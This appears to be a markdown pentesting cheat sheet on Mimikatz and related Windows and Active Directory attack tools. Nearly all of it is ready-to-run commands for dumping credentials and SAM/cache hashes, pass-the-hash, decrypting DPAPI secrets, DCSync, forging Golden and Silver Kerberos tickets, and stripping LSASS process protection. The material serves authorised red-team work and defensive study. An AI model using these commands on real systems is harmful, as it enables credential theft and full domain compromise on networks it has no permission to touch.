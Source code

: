 # Mimikatz

### General

Some commands need elevated/debug privileges you can enable them with `token::elevate` and `privilege::debug`. 

Useful commands to dump everything we can:

```text
sekurlsa::logonpasswords
lsadump::sam
lsadump::cache
```

#### Creates tickets from hashes instead of passing hashes directly

```bash
Invoke-Mimikatz -Command '" kerberos:ptt <ticket>"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:<command>"'
```

#### Dump remote credentials

```bash
Invoke-Mimikatz -DumpCreds -ComputerName @("<target1>", "<target2>")
```

### DPAPI

#### Manual

Note: Make you are in a session of type 1, if not migrate to a process that has it. Otherwise these steps don't need special privileges.

```text
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials
```

```text
dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<id>
```

Note guidMasterKey and pdData. Then there should be matching directories in:

```text
dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-<...>
```

```text
dpapi::masterkey /in:C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-<...>\<guidMasterKey> /rpc"
```

This will show a key file at the bottom, the actual MasterKey. Now we can decrypt the blob:

```text
dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<...>/masterkey:<MasterKey>
```

#### [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

Run a combination of attacks:

```text
SharpDPAPI triage
```

Decrypt the secret of the user you are logged in as:

```text
SharpDPAPI rdg /unprotect
```

#### Resources

[https://www.exploit-db.com/docs/48589](https://www.exploit-db.com/docs/48589)

### DCSync

```text
log
lsadump::dcsync /domain:<> /all /csv
```

### Golden Ticket

Allows us to sign valid TGTs for the domain \(requires the krbtgt hash\).

```text
kerberos::golden /user:<> /domain:<> /sid:<> /krbtgt:<> /ticket:<outfile>
```

This can be converted to base64 and then used with Rubeus to pass the ticket:

```text
Rubeus ptt /ticket:<>
```

It can also be used in mimikatz:

```bash
kerberos::ptt <filename>
dir \\DC\\C$
psexec \\DC cmd.exe
```

#### Alternatively this can be done in Metasploit's Kiwi:

```bash
golden_ticket_create -d <domain> -k <krbtgt hash> -s <domain-sid> -u <name, does not have to exist (but can)> -t <filename>
kerberos_ticket_use <filename>
```

### Silver Ticket

Silver tickets are rarely used, the only allow access to services on a single box. To create it we need the machine account hash:

```text
kerberos::golden /user:<> /domain:<> /sid:<> /target:<> /service:<> /rc4:<> /ticket:<outfile>
```

### Remove process protection

Running `!+` loads 'mimidrv', which one needs to copy into the same directory as mimikatz.exe in order for this to work. 

```bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove
# payload e.g. misc::skeleton
!-
```

Alternatively we can use [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) which uses a signed driver by MSI to disable process protection \(really a matter of detection,  mimidrv works just fine with AV disabled\).

### Misc

* DC Shadow Attack \([Stealthbits](https://attack.stealthbits.com/how-dcshadow-persistence-attack-works)\)


